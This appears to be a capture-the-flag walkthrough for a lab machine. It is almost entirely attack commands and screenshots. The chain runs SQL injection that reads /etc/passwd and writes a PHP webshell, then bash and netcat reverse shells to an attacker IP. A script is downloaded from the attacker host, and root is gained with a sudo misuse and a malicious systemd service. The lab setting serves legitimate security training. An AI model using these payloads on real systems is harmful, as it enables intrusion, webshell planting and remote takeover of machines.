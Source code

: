 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)



![image](https://user-images.githubusercontent.com/33616880/231967279-462d7629-3f4f-4f75-bff1-b82ba0cfeb7b.png)

![image](https://user-images.githubusercontent.com/33616880/231967320-8aa8e60a-e6b3-4552-882e-0ad264e09771.png)



![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)



![image](https://user-images.githubusercontent.com/33616880/231968678-abdd6033-6a96-45b6-bc8e-0fd5e45791de.png)
![image](https://user-images.githubusercontent.com/33616880/231968797-0152fad4-d673-488d-aff8-4cbd8d10910d.png)
![image](https://user-images.githubusercontent.com/33616880/231968997-2d0da6ba-012b-480d-83b6-8c185543e797.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```
![image](https://user-images.githubusercontent.com/33616880/231969952-3829cca0-1e62-48ed-a680-8e597d111ff8.png)
![image](https://user-images.githubusercontent.com/33616880/231969969-fe7ccd80-1d5e-4185-9c24-377b58bbe4e1.png)


```
http://10.10.10.143/room.php?cod=-1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://user-images.githubusercontent.com/33616880/231971738-3210b286-20ab-471c-8c63-556e238f3523.png)
![image](https://user-images.githubusercontent.com/33616880/231971768-31d1b5c7-93bb-4b3a-8b4e-d648a22900ce.png)


```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.8/1234 0>&1"'
```
![image](https://user-images.githubusercontent.com/33616880/231972202-e13e19ba-e5cd-4ef9-8b24-ed13676f248b.png)
![image](https://user-images.githubusercontent.com/33616880/231972255-3fcdf22f-ef68-4a2a-87b3-c189d8936720.png)



```
sudo -l
```
![image](https://user-images.githubusercontent.com/33616880/231978294-ddc1284d-62b6-4669-ad17-5b0ec362a773.png)



```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
![image](https://user-images.githubusercontent.com/33616880/231977903-441bb61c-6dad-427e-9d5f-387558289cf6.png)
![image](https://user-images.githubusercontent.com/33616880/231977956-2ac3c680-de93-4e87-8b3c-91a432c7efa6.png)



```
find / -perm -4000 2>/dev/null
```
![image](https://user-images.githubusercontent.com/33616880/231979320-9e90787c-3b50-40e9-b92d-cd4009af4304.png)



```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



